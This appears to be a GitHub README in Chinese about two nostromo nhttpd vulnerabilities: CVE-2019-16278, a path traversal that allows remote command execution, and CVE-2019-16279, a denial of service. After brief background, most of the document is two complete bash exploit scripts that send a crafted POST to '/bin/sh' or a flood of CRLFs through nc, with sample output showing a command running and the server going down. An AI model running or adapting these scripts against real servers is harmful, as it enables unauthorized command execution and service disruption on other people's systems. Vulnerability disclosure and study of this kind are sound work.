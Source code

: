 ## CVE-2019-16278andCVE-2019-16279-about-nostromo-nhttpd  

## 0x1.nostromo nhttpd简介  
nostromo nhttpd是一款简单，快速的开源Web服务器，其作者是来自瑞士tiefen Boden 7的马库斯·格洛克（Marcus Glocker）。
## 0x2.漏洞来源  
10月14日来自hackthebox名人堂第290名精英黑客sp0re公布了 nostromo nhttpd 1.9.6（目前最新版，算是0day吧）及之前版本中的‘http_verify’函数存在路径遍历漏洞CVE-2019-16278和拒绝服务攻击（Dos）CVE-2019-16279 。

## 0x3.漏洞详情  
CVE-2019-16278漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素，攻击者可利用该漏洞访问受限目录之外的位置，而且这个漏洞是因为 对CVE-2011-0751漏洞的未完全修复导致攻击者可以利用类似 /../ 的路径格式绕过限制从而通过 /bin/sh 来执行任意参数，即命令执行。
例如：  
```shell
$ ./CVE-2019-16278.sh 127.0.0.1 8080 id
uid=1001(sp0re) gid=1001(sp0re) groups=1001(sp0re)
```

而CVE-2019-16279是在当攻击者在单连接中发送大量的 \r\n 就会导致 nhttpd 出现内存错误，从而导致决绝服务。
例如：
```shell
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
```
## 0x4.漏洞相关脚本  
`CVE-2019-16278.sh：`  

```shell
#!/usr/bin/env bash

HOST="$1"
PORT="$2"
shift 2

( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
  | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

`CVE-2019-16279.sh：`   

```shell
#!/usr/bin/env bash

HOST="$1"
PORT="$2"

echo -n -e '\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n' | nc "$HOST" "$PORT"

```

